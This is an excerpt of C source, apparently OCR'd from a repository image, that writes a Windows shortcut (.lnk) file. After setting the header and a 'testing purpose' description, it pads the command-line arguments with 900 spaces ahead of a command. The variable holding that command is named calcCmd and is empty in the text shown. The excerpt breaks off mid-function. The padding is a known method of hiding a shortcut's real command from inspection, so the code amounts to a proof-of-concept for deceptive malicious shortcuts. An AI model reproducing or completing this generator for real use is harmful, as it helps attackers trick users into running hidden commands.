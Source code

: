 ```c
        HAS_ICON_LOCATION |
        IS_UNICODE |
        HAS_EXP_STRING;

    header.FileAttributes = FILE_ATTRIBUTE_NORMAL;

    SYSTEMTIME st;
    GetSystemTime(&st);
    SystemTimeToFileTime(&st, &header.CreationTime);
    SystemTimeToFileTime(&st, &header.AccessTime);
    SystemTimeToFileTime(&st, &header.WriteTime);

    header.FileSize = 0;
    header.IconIndex = 0;
    header.ShowCommand = SW_SHOWNORMAL;
    header.HotKey = 0;
    header.Reserved1 = 0;
    header.Reserved2 = 0;
    header.Reserved3 = 0;

    if (!WriteFile(hFile, &header, sizeof(SHELL_LINK_HEADER), &bytesWritten, NULL)) {
        printf("Failed to write header: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    const char* description = "testing purpose";
    WORD descLen = (WORD)strlen(description);
    if (!WriteFile(hFile, &descLen, sizeof(WORD), &bytesWritten, NULL)) {
        printf("Failed to write description length: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    int wideBufSize = MultiByteToWideChar(CP_ACP, 0, description, -1, NULL, 0);
    WCHAR* wideDesc = (WCHAR*)malloc(wideBufSize * sizeof(WCHAR));
    if (!wideDesc) {
        printf("Memory allocation failed\n");
        CloseHandle(hFile);
        return 1;
    }

    MultiByteToWideChar(CP_ACP, 0, description, -1, wideDesc, wideBufSize);

    if (!WriteFile(hFile, wideDesc, descLen * sizeof(WCHAR), &bytesWritten, NULL)) {
        printf("Failed to write description: %lu\n", GetLastError());
        free(wideDesc);
        CloseHandle(hFile);
        return 1;
    }
    free(wideDesc);

    const char* calcCmd = "";
    char cmdLineBuffer[1024] = { 0 };
    int cmdLen = strlen(calcCmd);
    int fillBytes = 900 - cmdLen;

    memset(cmdLineBuffer, 0x20, fillBytes);
    strcpy(cmdLineBuffer + fillBytes, calcCmd);
    cmdLineBuffer[900] = '\0';

    WORD cmdArgLen = (WORD)strlen(cmdLineBuffer);
    if (!WriteFile(hFile, &cmdArgLen, sizeof(WORD), &bytesWritten, NULL)) {
```